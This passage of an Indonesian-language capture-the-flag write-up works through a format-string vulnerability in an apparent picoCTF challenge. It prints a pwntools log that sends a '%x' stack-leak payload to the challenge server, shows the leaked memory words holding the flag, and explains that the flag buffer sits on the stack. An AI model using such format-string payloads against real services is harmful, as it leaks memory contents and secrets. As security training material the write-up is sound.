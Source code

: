 ```
[x] Opening connection to mercury.picoctf.net on port 59616
[x] Opening connection to mercury.picoctf.net on port 59616: Trying 18.189.209.142
[+] Opening connection to mercury.picoctf.net on port 59616: Done
XXX\pwn_test.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('2) View my portfolio\n')
XXX\pwn_test.py:49: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("1\n")
XXX\pwn_test.py:52: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('What is your API token?\n')
XXX\pwn_test.py:55: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("%x" + "_%x"*100 + "\n")
9427370_804b000_80489c3_f7f78d80_ffffffff_1_9425160_f7f86110_f7f78dc7_0_9426180_8_9427350_9427370_6f636970_7b465443_306c5f49_345f7435_6d5f6c6c_306d5f79_5f79336e_38343136_34356562_ff97007d_f7fb3af8_f7f86440_ced86800_1_0_f7e15ce9_f7f870c0_f7f785c0_f7f78000_ff979008_f7e0668d_f7f785c0_8048eca_ff979014_0_f7f9af09_804b000_f7f78000_f7f78e20_ff979048_f7fa0d50_f7f79890_ced86800_f7f78000_804b000_ff979048_8048c86_9425160_ff979034_ff979048_8048be9_f7f783fc_0_ff9790fc_ff9790f4_1_1_9425160_ced86800_ff979060_0_0_f7dbbfa1_f7f78000_f7f78000_0_f7dbbfa1_1_ff9790f4_ff9790fc_ff979084_1_0_f7f78000_f7f9b70a_f7fb3000_0_f7f78000_0_0_b40cb43a_2c52b22a_0_0_0_1_8048630_0_f7fa0d50_f7f9b960_804b000_1_8048630_0_8048662_8048b85_

[*] Closed connection to mercury.picoctf.net port 59616
```
Lah..napa malah jadi string biasa dah? oh iya kan sebelumnya pas masih binary usah ASCII ya. Eh tunggu, setelah [kubaca-baca](https://cplusplus.com/reference/cstdio/printf/) ternyata ```%x``` itu baca datanya per 4-byte. Jadi tiap 4 byte di stack akan di print.

Oke, jujur ini masih belum bisa menjawab cara mengkonversi data ini agar berguna gimana.

Ku merenung...

Merenung...

Merenung...

dan masih stuck.

Sampai suatu saat ku iseng cari-cari di internet soal ```Format String Vulnerability``` dan menemukan website [ini](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). Kubaca halaman lain tentang binary exploitation untuk lebih memahami challeng ini dan menemukan halaman yang [menarik](https://ctf101.org/binary-exploitation/what-are-buffers/). 

Jadi ternyata, buffer itu bisa ditaruh di ```STACK```.

Yes, baru tahu ternyata.

Dan ternyata, di contohnya, array yang di-_declare_ konstan sizenya akan di-_declare_ sebagai buffer di stack.

Dan tebak array apa yang size nya dideclare konstan di challenge?

YES! ```api_buf```, alias buffer berisi flagnya.
